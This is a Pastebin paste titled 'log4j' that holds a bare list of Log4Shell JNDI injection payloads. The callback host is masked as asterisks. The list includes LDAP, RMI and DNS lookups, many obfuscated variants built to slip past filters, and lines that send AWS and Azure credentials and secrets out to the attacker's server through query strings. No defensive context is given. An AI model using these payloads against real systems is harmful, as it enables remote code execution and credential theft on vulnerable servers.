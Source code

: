 # log4j
PASTEBIN
API
TOOLS
FAQ
paste
LOGIN SIGN UP

SHARE
TWEET
Guest User
trololo
A GUEST
JAN 12TH, 2022
38
NEVER
Not a member of Pastebin yet? Sign Up, it unlocks many cool features!
 15.83 KB
     
${jndi:ldap://****/z}
${jndi:ldaps://****}
${jndi:rmi://****}
${jndi:dns://****}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//****/z}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}daps${env:ENV_NAME:-:}//****/z}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-r}mi${env:ENV_NAME:-:}//****/z}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-d}ns${env:ENV_NAME:-:}//****/z}
${jndi:ldap://****/z?leak=${env:AWS_ACCESS_KEY_ID:-NO_EXISTS}}
${jndi:ldap://****/z?leak=${env:AWS_SECRET_ACCESS_KEY:-NO_EXISTS}}
${jndi:ldap://****/z?leak=${env:AMAZON_AWS_ACCESS_KEY_ID:-NO_EXISTS}}
${jndi:ldap://****/z?leak=${env:AMAZON_AWS_SECRET_ACCESS_KEY:-NO_EXISTS}}
${jndi:ldap://****/z?leak=${env:AZURE_CLIENT_ID:-NO_EXISTS}}
${jndi:ldap://****/z?leak=${env:AZURE_CLIENT_SECRET:-NO_EXISTS}}
${jndi:ldap://****/z?leak=${env:AZURE_USERNAME:-NO_EXISTS}}
${jndi:ldap://****/z?leak=${env:AZURE_PASSWORD:-NO_EXISTS}}
${jndi:ldap://****/z?leak=${env:MSI_ENDPOINT:-NO_EXISTS}}
${jndi:ldap://****/z?leak=${env:MSI_SECRET:-NO_EXISTS}}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://****/z}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://****/z}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://****/z}
${jnd${sys:SYS_NAME:-i}:ldap:/****/z}
${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:ldap://****/z}
${${date:'j'}${date:'n'}${date:'d'}${date:'i'}:${date:'l'}${date:'d'}${date:'a'}${date:'p'}://****/z}
${${what:ever:-j}${some:thing:-n}${other:thing:-d}${and:last:-i}:ldap://****/z}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}${lower:s}://****/z}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}${upper:s}://****/z}
${${lower:j}ndi:${lower:r}${lower:m}a${lower:i}://****/z}
${${upper:j}ndi:${upper:r}${upper:m}a${lower:i}://****/z}
${${lower:j}ndi:${lower:d}${lower:n}a${lower:s}://****/z}
${${upper:j}ndi:${upper:d}${upper:n}a${lower:s}://****/z}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}${::-s}://****/z}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://****/z}
${${::-j}${::-n}${::-d}${::-i}:${::-d}${::-n}${::-s}://****/z}
${jnd${sys:SYS_NAME:-i}:ldap:/****/z}
${jnd${sys:SYS_NAME:-i}:ldaps:/****/z}
${jnd${sys:SYS_NAME:-i}:rmi:/****/z}
${jnd${sys:SYS_NAME:-i}:dns:/****/z}
${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:ldap://****/z}
${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:ldaps://****/z}
${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:rmi://****/z}
${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:dns://****/z}